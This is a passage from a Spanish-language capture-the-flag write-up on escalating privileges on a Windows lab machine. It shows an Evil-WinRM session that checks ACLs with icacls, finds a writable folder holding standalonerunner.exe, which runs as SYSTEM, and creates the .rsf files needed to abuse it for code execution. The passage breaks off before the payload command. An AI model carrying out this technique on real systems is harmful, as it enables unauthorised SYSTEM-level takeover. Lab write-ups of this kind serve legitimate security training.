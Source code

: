 Esto nos da indicio de que en esta máquina puede que estén instalados algunos componentes para el desarrollo de software en Windows, y algo que nos da aún más razón para creer esto, es esta nota en el `README.md`:

> NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment

Si buscamos por este archivo en internet, nos saldrá que es una utilidad incluida en el kit de drivers de Windows para debuggear y probar drivers. Viendo la ACL de la carpeta donde se encuentra el archivo, encontraremos algo peculiar:

```bash
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> icacls .
. AXLLE\App Devs:(OI)(CI)(RX,W)
  Everyone:(I)(OI)(CI)(R)
  AXLLE\Administrator:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(R)
  AXLLE\App Devs:(I)(OI)(CI)(RX)
  NT SERVICE\TrustedInstaller:(I)(F)
  NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
  NT AUTHORITY\SYSTEM:(I)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
  BUILTIN\Administrators:(I)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
  BUILTIN\Users:(I)(RX)
  BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Tenemos permisos de escritura sobre esta carpeta y nos han dicho que corre de forma automatizada como SYSTEM, lo que quiere decir que básicamente tenemos parcialmente privilegios de administrador porque este binario posee una [vulnerabilidad RCE](https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md), solo falta obtener una consola.

Guiandonos por la página anterior, vamos a movernos donde está este archivo y creemos los archivos necesarios.

```bash
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> echo testdir > reboot.rsf
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> echo True >> reboot.rsf
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> echo 1 > testdir\working\rsf.rsf
```

Finalmente, crearemos el archivo con el comando que queremos ejecutar:
